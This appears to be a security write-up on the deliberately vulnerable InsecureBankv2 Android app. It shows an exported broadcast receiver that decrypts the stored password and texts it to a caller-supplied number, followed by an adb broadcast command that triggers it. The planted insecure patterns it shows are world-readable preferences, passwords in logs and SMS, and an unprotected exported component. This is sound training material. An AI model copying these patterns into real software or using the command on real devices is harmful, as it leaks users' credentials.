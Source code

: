 ## Broadcast Receivers

> app/src/main/AndroidManifest.xml

```
<receiver android:exported="true" android:name="com.android.insecurebankv2.MyBroadCastReceiver">
	<intent-filter>
		<action android:name="theBroadcast"/>
	</intent-filter>
</receiver>
```

> app/src/main/java/com/android/insecurebankv2/ChangePassword.java

```
private void broadcastChangepasswordSMS(String phoneNumber, String pass) {
if(TextUtils.isEmpty(phoneNumber.toString().trim())) {
System.out.println("Phone number Invalid.");
}
else
{
Intent smsIntent = new Intent();
smsIntent.setAction("theBroadcast");
smsIntent.putExtra("phonenumber", phoneNumber);
smsIntent.putExtra("newpass", pass);
sendBroadcast(smsIntent);
}
}
```

> app/src/main/java/com/android/insecurebankv2/MyBroadCastReceiver.java

```
public void onReceive(Context context, Intent intent) {
	String phn = intent.getStringExtra("phonenumber");
	String newpass = intent.getStringExtra("newpass");

	if (phn != null) {
		try {
			SharedPreferences settings = context.getSharedPreferences(MYPREFS, Context.MODE_WORLD_READABLE);
			final String username = settings.getString("EncryptedUsername", null);
			byte[] usernameBase64Byte = Base64.decode(username, Base64.DEFAULT);
			usernameBase64ByteString = new String(usernameBase64Byte, "UTF-8");
			final String password = settings.getString("superSecurePassword", null);
			CryptoClass crypt = new CryptoClass();
			String decryptedPassword = crypt.aesDeccryptedString(password);
			String textPhoneno = phn.toString();
			String textMessage = "Updated Password from: "+decryptedPassword+" to: "+newpass;
			SmsManager smsManager = SmsManager.getDefault();
			System.out.println("For the changepassword - phonenumber: "+textPhoneno+" password is: "+textMessage);
			smsManager.sendTextMessage(textPhoneno, null, textMessage, null, null);
		} catch (Exception e) {
			e.printStackTrace();
		}
	}
	else {
		System.out.println("Phone number is null");
	}
}
```

- `$ adb shell am broadcast -n com.android.insecurebankv2/.MyBroadCastReceiver -a theBroadcast --es phonenumber 5554 --es newpass hacked`

